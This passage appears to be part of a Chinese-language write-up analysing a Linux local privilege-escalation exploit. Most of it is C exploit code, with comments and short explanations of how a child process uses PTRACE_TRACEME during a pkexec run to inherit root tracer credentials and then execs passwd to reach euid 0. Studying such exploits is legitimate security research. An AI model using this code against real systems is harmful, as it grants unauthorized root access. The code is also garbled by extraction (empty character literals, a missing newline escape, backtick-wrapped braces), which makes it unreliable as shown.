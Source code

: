 ```
 80       char buf[1000];
 81       ssize_t buflen = SAFE(pread(proc_fd, buf, sizeof(buf)-1, 0));
 82       buf[buflen] = '';
 83       if (strstr(buf, needle)) break;
 84     `}`
 85 
 86     /*
 87      * this is where the bug is triggered.
 88      * while our parent is in the middle of pkexec, we force it to become our
 89      * tracer, with pkexec's creds as ptracer_cred.
 90      */
 91     SAFE(ptrace(PTRACE_TRACEME, 0, NULL, NULL));
 92 
 93     /*
 94      * now we execute passwd. because the ptrace relationship is considered to
 95      * be privileged, this is a proper suid execution despite the attached
 96      * tracer, not a degraded one.
 97      * at the end of execve(), this process receives a SIGTRAP from ptrace.
 98      */
 99     puts("executing passwd");
100     execl("/usr/bin/passwd", "passwd", NULL);
101     err(1, "execl passwd");
102   `}`
103 
104   SAFE(dup2(self_fd, 0));
105   SAFE(dup2(block_pipe[1], 1));
106 
107   struct passwd *pw = getpwuid(getuid());
108   if (pw == NULL) err(1, "getpwuid");
109 
110   middle_success = 1;
111   execl("/tmp/fakepkexec", "fakepkexec", "--user", pw-&gt;pw_name, NULL);
112   middle_success = 0;
113   err(1, "execl pkexec");
114 `}`
```

行 70, 调用 fork 生成孙进程（也就是 task C）

然后行 111, task B 运行 fakepkexec 让自己提权再降权

然后看行 76 ~ 84, task C 检测到 task B 的 euid 变成 0 之后， 会执行行 91 进行 PTRACE_TRACEME 操作获取 root 的 ptracer_cred, 然后紧接着 task C 马上运行 execl 执行一个 suid binary 让自己的 euid 变成 0

```
190   /*
191    * wait for our child to go through both execve() calls (first pkexec, then
192    * the executable permitted by polkit policy).
193    */
194   while (1) `{`
195     int fd = open(tprintf("/proc/%d/comm", midpid), O_RDONLY);
196     char buf[16];
197     int buflen = SAFE(read(fd, buf, sizeof(buf)-1));
198     buf[buflen] = '';
199     *strchrnul(buf, 'n') = '';
200     if (strncmp(buf, basename(helper_path), 15) == 0)
201       break;
202     usleep(100000);
203   `}`
204 
205   /*
206    * our child should have gone through both the privileged execve() and the
207    * following execve() here
208    */
209   SAFE(ptrace(PTRACE_ATTACH, midpid, 0, NULL));
```